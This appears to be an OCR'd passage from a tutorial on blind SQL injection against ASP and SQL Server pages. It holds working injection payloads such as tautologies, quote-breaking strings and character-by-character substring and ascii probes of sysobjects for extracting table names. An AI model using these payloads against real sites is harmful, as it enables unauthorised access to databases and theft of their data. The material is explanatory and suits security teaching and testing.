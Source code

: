 ```ex
    product.asp?id=4 (SMO)

    product.asp?id=5-1
    product.asp?id=4 OR 1=1
```

product.asp?name=Book

```ex
    product.asp?name=Bo'%2b'ok
    product.asp?name=Bo' || 'ok (OM)
    product.asp?name=Book' OR 'x'='x
```

Example:

```ex
http://widgetshop.com/widget/?id=1 and 1=2
```

Firstly, it might just throw an exception if no record is returned. Secondly, the app might not throw an exception but then it also won’t display a record either because the equivalency is false.

Now let’s try

```ex
1 and
(
 select top 1 substring(name, 1, 1) from sysobjects where id=(
     select top 1 id from (
           select top 1 id from sysobjects where xtype='u' order by id
       ) sq order by id desc
      )
 ) = 'a'
```

It’s now an equivalency test to see if the first character of the table name is an “a” (we’re assuming a case-insensitive collation here). If this request gives us the same result as “?id=1” then it confirms that the first table in sysobjects does indeed begin with an “a” as the equivalency has held true. If it gives us one of the earlier mentioned two scenarios (an error or shows no record), then we know that the table doesn’t begin with an “a” as no record has been returned.

Now all of that only gives us the first character of the table name from sysobjects, when you want the second character then the substring statement needs to progress to the next position:

```ex
select top 1 substring(name, 2, 1) from sysobjects where id=(
```

We can see it now starts at position 2 rather than position 1. Of course this is laborious; as well as enumerating through all the tables in sysobjects you end up enumerating through all the possible letters of the alphabet until you get a hit then you have to repeat the process for each character of the table name.

A better way to this would be:

```better
1 and
(
 select top 1 ascii(lower(substring(name, 1, 1))) from sysobjects where id=(
     select top 1 id from (
           select top 1 id from sysobjects where xtype='u' order by id
     ) sq order by id desc
   )
 ) > 109
```
